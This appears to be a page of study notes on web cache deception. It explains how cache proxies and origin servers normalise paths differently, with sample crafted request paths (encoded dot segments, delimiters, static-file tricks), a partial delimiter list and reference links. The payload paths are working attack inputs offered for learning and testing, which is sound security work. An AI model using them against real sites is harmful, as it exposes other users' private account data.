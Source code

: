 > GET /<DynamicResource><Delimiter><EncodedDotSegment><StaticDirectory>
CP normalizes req, applying the path traversal so it sees `/static/any` 
Origin Server uses `$` as `delimiter` so it ignores `$/..%2Fstatic/any` and serves `/myAccount`
CP applying static directory rules caches `/myAccount` as `/static/any` 
Browser                          Cache Proxy      Origin Server
> /myAccount$/..%2Fstatic/any    /static/any      /myAccount

Remember to test the behavior of the CP 

# Exploiting static directories through Backend only normalization
The Origin Server normalizes the path before mapping the endpoint but the 
cache doesn't normalize the path before evaluating the cache rules, 
You can add a path traversal segment that will only be processed by the Origin Server:

GET /<StaticDirectory><EncodedDotSegment><DynamicResource>
CP doesn't normalize encoding, forwards to Origin Server
Origin Server normalizes path traversal dot segments and serves `/myAccount` 
CP caches response thinking it is under `/static/`
Browser                   Cache Proxy                 Origin Server
> /static/..%2FmyAccount  /static/..%2FmyAccount      /myAccount

# Real world Exploit normalization
https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html
%2F..%2F

# Static files
Some files, like /robots.txt, /favicon.ico, and /index.html, 

# Exploiting static files
Use the technique used in static directories where
the CP normalizes the req and there is a delimiter at backend. 
The static directory is replaced by the filename and a cache buster

> GET /<DynamicResource><Delimiter><EncodedDotSegment><Static_File>
Browser                         Cache Proxy     Origin Server
> /myAccount/..%2Frobots.txt      /robots.txt     /myAccount

# Understanding Our Cache and the Web Cache Deception Attack
https://blog.cloudflare.com/understanding-our-cache-and-the-web-cache-deception-attack/
Web cache deception lab delimiter list
```
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
```